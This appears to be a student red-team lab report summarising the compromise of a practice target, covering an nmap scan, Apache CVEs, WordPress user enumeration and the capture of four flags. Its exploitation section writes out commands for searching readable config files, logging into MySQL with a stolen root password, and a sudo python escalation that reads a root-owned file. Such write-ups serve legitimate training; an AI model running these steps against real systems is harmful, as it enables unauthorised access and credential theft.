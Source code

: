 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.0/24
```

* ![image-20211130104421641](C:\Users\robforee\AppData\Roaming\Typora\typora-user-images\image-20211130104421641.png)

This scan identifies the services below as potential points of entry:

- Target1 192.168.1.110 points of entry
  - port 80, 22, 111, 139 and 445
  - services httpd, ssh 

The following vulnerabilities were identified on each target:

**Target 1: identify apache version vulnerability**

- CVE-2014-8109 
- CVE-2015-3185
- Severity High

![image-20211130105727457](C:\Users\robforee\AppData\Roaming\Typora\typora-user-images\image-20211130105727457.png)

**Target 1:  identify password policy**

* Exposure of password policy
* Severity High

![image-20211130113000527](C:\Users\robforee\AppData\Roaming\Typora\typora-user-images\image-20211130113000527.png)

**Target 1: identify wordpress user enumeration vulnerability**

* User enumeration
* Severity medium

![image-20211130112805953](C:\Users\robforee\AppData\Roaming\Typora\typora-user-images\image-20211130112805953.png)

**Target 1:  identify mysql vulnerability**

* Database name and root user password
* Severity High

![image-20211130112853185](C:\Users\robforee\AppData\Roaming\Typora\typora-user-images\image-20211130112853185.png)



### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: 
  - ![image-20211130110452430](C:\Users\robforee\AppData\Roaming\Typora\typora-user-images\image-20211130110452430.png)
    - **Exploit Used**
      - simple password guessing
      - michael
  - `flag2.txt`: 
  - ![image-20211130110330424](C:\Users\robforee\AppData\Roaming\Typora\typora-user-images\image-20211130110330424.png)
    - **Exploit Used**
      - probing scope of user authority 
      - find / -perm -o=r | grep config
  - `flag3.txt:`
  - ![image-20211130112541115](C:\Users\robforee\AppData\Roaming\Typora\typora-user-images\image-20211130112541115.png)
    - **Exploit Used**
      - theft of database root password 
      - mysql -u root -pR@v3nSecurity -D wordpress -e "select * from *"
  - `flag4.txt:`
  - ![image-20211130111550882](C:\Users\robforee\AppData\Roaming\Typora\typora-user-images\image-20211130111550882.png)
    - **Exploit Used**
      - sudo root
      - sudo python -c "import os;os.system('cat /root/flag4.txt');"

